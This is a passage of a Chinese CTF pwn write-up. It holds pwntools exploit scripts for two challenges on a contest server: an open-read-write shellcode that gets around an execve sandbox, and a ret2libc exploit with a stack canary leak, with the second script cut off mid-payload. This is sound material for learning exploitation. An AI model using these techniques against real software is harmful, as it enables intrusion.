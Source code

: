 ​	用`gift`里的`mov rdi rsi;`与`pop rdi;`组合,实现`pop rdi`的效果.之后我们泄露libc基址,再用`execve("/bin/sh",0,0)`getshell.`system`试过了,不行.大概是需要的栈空间太大的原因.

##### 	3:orw

```assembly
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

​	除了`canary`都开了.另外还有沙箱ban掉了`execve`

```python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'
libc=ELF("./libc.so.6")

r=remote("contest.ctf.nefu.edu.cn",33775)
#r=process("./pwn")
#gdb.attach(r)
#pause()

r.recvuntil("gift: ")
gift_add=r.recvuntil("\n")[:-1]
print(gift_add)
pause()
orw=shellcraft.open('./flag')
orw+=shellcraft.read(3,int(gift_add,16)+0x400,0x50)
orw+=shellcraft.write(1,int(gift_add,16)+0x400,0x50)

r.sendafter("shellcode",asm(orw))
r.interactive()
```

​	用shellcraft模块构造出`orw shellcaft`,读取flag输出.

##### 4:relibc

​	很简单的一道ret2libc+canary绕过.但我忘记对齐导致做了半天没成功...

```python
from pwn import *
vuln_add=0x40078C
puts_plt=0x400580
puts_got=0x600C30
rdi_add=0x40078a
ret_add=0x400566
context.log_level = 'debug'
context.arch = 'amd64'
r=remote("contest.ctf.nefu.edu.cn",33776)

libc=ELF("./libc-2.27.so")
#r=process("./pwn")
#gdb.attach(r)
#pause()
r.recv()
payload=b"a"*23+b'b'
r.sendline(payload)
r.recvuntil("aaaaaaab")
ch=u64(r.recv(8))-0xa
r.recv()
print(hex(ch))
payload2=b'a'*24+p64(ch)+b'a'*0x8+p64(rdi_add)+p64(puts_got)+p64(puts_plt)+p64(vuln_add)
```